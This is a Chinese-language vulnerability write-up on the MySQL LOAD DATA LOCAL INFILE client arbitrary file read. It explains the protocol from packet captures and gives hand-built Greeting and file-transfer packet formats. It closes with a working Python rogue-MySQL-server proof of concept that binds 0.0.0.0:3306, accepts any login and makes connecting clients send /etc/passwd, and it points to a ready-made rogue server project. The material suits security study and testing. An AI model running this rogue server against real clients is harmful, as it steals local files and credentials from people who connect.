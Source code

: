 MySQL LOAD DATA 读取客户端任意文件
==================================

一、漏洞简介
------------

### LOAD DATA INFILE

mysql的LOAD DATA
INFILE语句主要用于读取一个文件的内容并且存入一个表中。通常有两种用法，分别是：

    load data infile "/etc/passwd" into table TestTable fields terminated by '分隔符';
    load data local infile "/etc/passwd" into table TestTable fields terminated by '分隔符';

第一个语句是读取服务器上的/etc/passwd文件并存入TestTable表中，第二个语句是读取客户端本地的/etc/passwd文件并存入TestTable表中。我们要利用的是LOAD
DATA LOCAL INFILE。官方文档中也提出了这个问题（PS：Google翻译的不是很准确）

![](./.resource/MySQLLOADDATA读取客户端任意文件/media/rId23.png)

二、漏洞影响
------------

三、复现过程
------------

### 分析数据包

测试环境：MacOS 10.14Mysql 5.7.21

使用tcpdump抓取3306端口的数据包

![](./.resource/MySQLLOADDATA读取客户端任意文件/media/rId27.png)

#### 1.服务器向客户端发送greeting问候包，包含服务端banner信息

![](./.resource/MySQLLOADDATA读取客户端任意文件/media/rId29.png)

#### 2.客户端发送登陆请求包，包含用户名密码，以及含有LOAD DATA LOCAL选项的客户端banner信息。

![](./.resource/MySQLLOADDATA读取客户端任意文件/media/rId31.png)

#### 3.然后是客户端初始化的一些查询，比如select database(); select @\@version\_comment;

![](./.resource/MySQLLOADDATA读取客户端任意文件/media/rId33.png)

#### 4.找到我们执行的LOAD DATA INFILE数据包，第一个包看起来比较正常，是客户端发起的Request Que

![](./.resource/MySQLLOADDATA读取客户端任意文件/media/rId35.png)

#### 5.但是紧接着服务器返回了一个包含刚才所要LOAD DATA INFILE的文件名/Users/smi1e/Desktop/test.txt的数据包。

![](./.resource/MySQLLOADDATA读取客户端任意文件/media/rId37.png)

#### 6.然后客户端向服务端发送了/Users/smi1e/Desktop/test.txt文件的内容：

![](./.resource/MySQLLOADDATA读取客户端任意文件/media/rId39.png)

如果我们在客户端发送查询之后，返回一个Response
TABULAR数据包，即服务端向客户端发送了文件名的数据包，如果我们把这个文件名设置成我们想要读取的文件，那么我们就可以读取客户端的任意文件了。正如官方文档所写的
In theory, a patched server could be built that would tell the client
program to transfer a file of the server\'s choosing rather than the
file named by the client in the [LOAD
DATA](https://dev.mysql.com/doc/refman/8.0/en/load-data.html)
statement.也就是说想要读取哪个文件是服务端说了算，跟客户端所request的文件名没有关系。

最重要的是伪造的服务端可以在任何时候回复一个file-transfer
请求，不一定非要是在客户端发送LOAD DATA LOCAL数据包的时候。不过如果想要利用此特性，客户端必须具有CLIENT\_LOCAL\_FILES即(Can use
LOAD DATA
LOCAL)属性。如果没有的话，就要在连接mysql的时候加上\--enable-local-infile。

### 搭建MySQL服务端

主要分为

-   向 MySQL Client 发送Server Greeting
-   等待 Client 端发送一个Query Package
-   回复一个file transfer请求

我们需要知道如何构造File Transfer和Server
Greeting数据包，这些包的格式都可以在 MySQL 的官方文档上找到。

File Transfer数据包格式：Protocol::LOCAL\_INFILE\_Request

并且我们需要等待一个来自 Client
的查询请求，才能回复这个读文件的请求。不过我们在上面看到客户端在连接成功后会自动的做一些初始化的查询。

![](./.resource/MySQLLOADDATA读取客户端任意文件/media/rId42.png)

官方也给了exmaple

    0c 00 00 01 fb 2f 65 74    63 2f 70 61 73 73 77 64    ...../etc/passwd

数据包的内容其实是从\\xfb开始的，这个字节代表包的类型，后面紧跟要读取的文件名。前面的0x0c是数据包的长度（从
\\xfb 开始计算），长度后面的三个字节\\x00\\x00\\x01是数据包的序号。

![](./.resource/MySQLLOADDATA读取客户端任意文件/media/rId43.png)

Greeting数据包格式：官方文档，如果不会构造可以直接拷贝抓到的数据包然后改一下长度、文件名之类的。

这里直接拷贝大佬归纳的格式。

    '\x0a',  # Protocol
    '6.6.6-lightless_Mysql_Server' + '\0',  # Version
    '\x36\x00\x00\x00',  # Thread ID
    'ABCDABCD' + '\0',  # Salt
    '\xff\xf7',  # Capabilities, CLOSE SSL HERE!
    '\x08',  # Collation
    '\x02\x00',  # Server Status
    "\x0f\x80\x15", 
    '\0' * 10,  # Unknown
    'ABCDABCD' + '\0',
    "mysql_native_password" + "\0"

### poc

来源于https://www.vesiluoma.com/abusing-mysql-clients/的POC，测了一个多小时都没成功，最后发现里面
\#3payload写错了，我给改了下。

    #!/usr/bin/python
    #coding: utf8
    import socket

    # linux :
    #filestring = "/etc/passwd"
    # windows:
    #filestring = "C:\Windows\system32\drivers\etc\hosts"
    HOST = "0.0.0.0" # open for eeeeveryone! ^_^
    PORT = 3306
    BUFFER_SIZE = 1024

    #1 Greeting
    greeting = "\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"
    #2 Accept all authentications
    authok = "\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"

    #3 Payload
    #数据包长度
    payloadlen = "\x0c"
    padding = "\x00\x00"
    payload = payloadlen + padding +  "\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen(1)

    while True:
        conn, addr = s.accept()

        print 'Connection from:', addr
        conn.send(greeting)
        while True:
            data = conn.recv(BUFFER_SIZE)
            print " ".join("%02x" % ord(i) for i in data)
            conn.send(authok)
            data = conn.recv(BUFFER_SIZE)
            conn.send(payload)
            print "[*] Payload send!"
            data = conn.recv(BUFFER_SIZE)
            if not data: break
            print "Data received:", data
            break
        # Don't leave the connection open.
        conn.close()

![](./.resource/MySQLLOADDATA读取客户端任意文件/media/rId45.png)

ps: 实测 下面这个项目比较好用，上面的poc还需要改长度和内容的16进制值Github还有一个项目：https://github.com/allyshka/Rogue-MySql-Server

该特性适用于：MySQL Client、 PHP with mysqli、Python with
MySQLdb、Python3 with mysqlclient、Java with JDBC Driver等。
